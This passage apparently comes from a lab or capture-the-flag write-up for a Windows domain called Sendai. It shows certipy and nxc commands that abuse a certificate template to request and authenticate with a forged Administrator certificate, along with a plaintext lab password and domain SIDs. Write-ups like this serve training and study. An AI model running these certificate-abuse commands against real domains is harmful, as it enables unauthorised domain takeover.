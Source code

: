 ![image.png](/assets/images/Sendai_VL/image%2038.png)

Successfully got the pfx for the administrator.

Now lets authenticate as an administrator using certipy.

```bash
certipy auth -pfx 'administrator.pfx' -dc-ip 10.129.234.66 -ns 10.129.234.66 -username administrator -domain sendai.vl
```

![image.png](/assets/images/Sendai_VL/image%2039.png)

I am facing errors with the SID mismatch, so lets just request a new certificate using certipy this time specifying the domain sid and object sid.

So lets get the Domain SID.

```bash
nxc ldap sendai.vl -u 'Clifford.Davey' -p 'RFmoB2WplgE_3p' --get-sid
```

![image.png](/assets/images/Sendai_VL/image%2040.png)

So the Administrator SID would be

```bash
S-1-5-21-3085872742-570972823-736764132-500
```

Now again requesting the certificate.

```bash
certipy req -u 'Clifford.Davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -ca 'sendai-DC-CA' -template 'SendaiComputer' -upn 'Administrator@sendai.vl' -sid 'S-1-5-21-3085872742-570972823-736764132-500'
```
